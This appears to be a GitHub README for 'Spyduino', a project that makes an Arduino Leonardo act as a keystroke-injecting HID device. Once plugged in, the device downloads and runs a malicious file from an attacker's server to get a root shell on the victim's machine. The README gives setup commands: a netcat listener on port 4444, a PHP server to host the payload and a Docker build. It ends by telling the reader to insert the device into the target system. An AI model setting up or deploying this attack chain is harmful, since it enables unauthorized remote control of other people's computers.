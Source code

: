 # Spyduino
An example of a rubber ducky with Arduino Leonardo

## Overview

![immagine](./media/Cattura.PNG)



The Arduino Leonardo has been loaded with a malicious program. Once the board is inserted into the target system, it is recognized as an HID and performs a malicious script. 
The script performs the downloading and execution of a malicious file from the attacker's server, allowing him to obtain a root shell of the victim.





## install

``` git clone https://github.com/JordanC996/Spyduino.git ```
 
## run

build an image from dockerfile

`docker build . `

run the image

`docker container run -it <id-image>` 

run netcat command

`nc -lvp 4444`

run php server listening on port 80

`php -S 172.17.0.2:80`

load arduino code on arduino Leonardo and get your Spyduino

insert the Spyduino in the target system!
